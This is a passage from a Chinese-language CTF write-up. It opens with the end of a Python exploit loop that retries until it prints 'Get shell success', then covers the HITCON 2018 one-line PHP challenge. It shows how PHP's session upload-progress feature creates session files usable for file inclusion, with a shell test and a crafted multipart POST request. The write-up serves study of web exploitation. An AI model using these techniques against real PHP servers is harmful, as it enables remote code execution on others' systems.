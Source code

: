 ```python
    t.setDaemon(True)
    t.start()
    while True:
        res = requests.get(url,headers=headers)
        if "c4ca4238a0b923820dcc509a6f75849b" in res.content:
            print("[*] Get shell success.")
            break
        else:
            print("[-] retry.")
```

## 0x2 hitcon2018 one-line-php-challenge 

题目代码如下：

```php
($_=@$_GET['orange']) && @substr(file($_)[0],0,6) === '@<?php' ? include($_) : highlight_file(__FILE__);
```

题目描述：P.S. This is a default installation PHP7.2 + Apache on Ubuntu 18.04

### php的session.upload_progress.enabled=On引起的一个小问题

由于这个题目连session都没开，所以我根本就没有考虑去包含session。

但是最后看了orange的exp我才发现，只要发的POST请求中只要包含`ini_get("session.upload_progress.name")`这个键值，并带上session_id，同时进行文件上传，就会直接创建一个session文件。

测试如下，先删除session文件：

```bash
root@e5dfc152ed97:/var/lib/php/sessions# pwd
/var/lib/php/sessions
root@e5dfc152ed97:/var/lib/php/sessions# rm -rf *
```

然后发起请求：

```
POST /?file=test HTTP/1.1
Host: 127.0.0.1:8088
Connection: close
Accept: */*
User-Agent: python-requests/2.18.4
Cookie: PHPSESSID=u0hgfruaudns3jigq5trocbr0m
Content-Length: 290
Content-Type: multipart/form-data; boundary=--------713660820

----------713660820
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

test
----------713660820
Content-Disposition: form-data; name="upload";filename='test'

test
----------713660820
Content-Disposition: form-data; name="submit"

submit
----------713660820--

```
